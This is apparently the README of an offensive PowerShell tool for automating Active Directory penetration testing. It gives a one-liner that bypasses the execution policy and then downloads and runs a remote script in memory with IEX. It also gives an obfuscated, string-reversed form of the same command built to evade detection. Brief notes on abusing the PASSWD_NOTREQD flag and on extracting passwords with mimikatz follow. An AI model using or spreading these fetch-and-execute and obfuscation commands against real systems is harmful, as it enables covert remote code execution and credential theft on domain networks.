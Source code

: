 # GIRISM - Guided Infiltration and Reconnaissance Initiative for System Manipulation

*Automating Penetration testing of Active Directory*

Import-Module .\Girism.ps1
Type Girism and then allow the script to load into the current Powershell session.
Follow the on-screen instructions afterwards.

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Girism/main/Girism.ps1'))

OBF IEX:

" $(SeT-iTEm 'vaRiABlE:OFs'  '') "+ ( [STrINg] [rEGEX]::MatChes( "xEI |)93]rahC[,'1LI' eCAlpEr-  )')'+')'+'1LI1sp.msiriG'+'/nia'+'m/msi'+'riG/o'+'h'+'oZniMAI/moc.'+'tne'+'tnoc'+'resubu'+'ht'+'ig'+'.wa'+'r//:sp'+'tth1LI'+'(gnirtSdaolnw'+'oD.)tneilCb'+'eW.t'+'e'+'N.met'+'syS '+'t'+'ce'+'jbO-weN(( xei '+';2703 rob'+'- locot'+'orPytiruceS'+'::]rega'+'naM'+'tnioPecivreS.teN.m'+'et'+'syS[ = l'+'o'+'cotorPytiruce'+'S:'+':]rega'+'naM'+'tnioPe'+'civr'+'eS.teN.'+'me'+'tsy'+'S[ ;'+'e'+'croF-'+' ss'+'ecorP '+'ep'+'ocS- s'+'sapyB ycilo'+'P'+'noituc'+'exE-teS'(( " , '.' ,'R'+'Ig'+'httoL'+'eFt') | %{$_ })+"$( SET-ITeM 'variAble:OFs'  ' ' )" | & ( $enV:COmsPEc[4,15,25]-JoIN'')

#  Empty password in Active Directory
I found out that the reason for an empty password in Active Directory can be found here – in the UserAccountControl Attribute.
In this attribute the flag “PASSWD_NOTREQD” can be set. If this flag is set, a domain administrator can issue an empty password, evading the password policy.
For accounts with the flag “PASSWD_NOTREQD” set, the attribute “UserAccountControl” has the value 544.

# Store password using reversible encryption
After you set the user attribute in the "Account" tab, as store password using reversible encription, you must reset password to see the password fetched from the mimikatz command 

# Clean the file share as post cleanup routine:
Type in Run window: 'fsmgmt.msc'
